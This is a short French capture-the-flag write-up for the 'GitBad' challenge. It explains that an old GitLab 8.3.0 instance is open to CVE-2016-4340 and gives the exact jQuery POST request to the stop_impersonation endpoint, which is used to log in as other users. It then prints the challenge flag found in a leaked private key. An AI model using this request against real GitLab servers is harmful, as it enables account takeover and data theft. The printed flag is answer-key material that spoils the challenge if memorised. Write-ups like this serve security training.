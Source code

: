 # GitBad

## Description :
La plateforme Gitlab créée par un stagiaire de DGA MI semble être ouverte à tous !

Vous devez en profiter pour retrouver des informations sensibles. Les comptes créés sur Gitlab sont validés toutes les trois secondes.

## Solution :
Le site utilise une ancienne version vulnérable de **GitLab** (8.3.0).
Cette version est vulnérable à la **CVE-2016-4340** : https://www.cvedetails.com/cve/CVE-2016-4340/.

En cherchant dans les dépots publics on retrouve plusieurs comptes, on peut donc via cet exploit s'y connecter en récupérant notre `authenticity_token` en utilisant la raquête suivante (en remplaçant `USERNAME` par le nom d'utilsateur de la victime):

`$.post("http://gitbad2.chall.malicecyber.com/admin/users/stop_impersonation?id=USERNAME", "_method=delete&authenticity_token=3dU2TMZfvCwUxQWtel6WofJ8cd/WFNX4JnujF2oTT/VMrAuqCH1EMyyQNG870m3S2ezLnkXKgV6jrpt0+4d+wg==");`

En testant la les comptes on tombe sur celui de `stephan`, qui à upload sa private key sur son projet `my-secret-project` retrouvable dans les commits et celle ci contient le flag ! 

Flag : `W3lL-d0N3-y0u-w1n-a_c4ke!`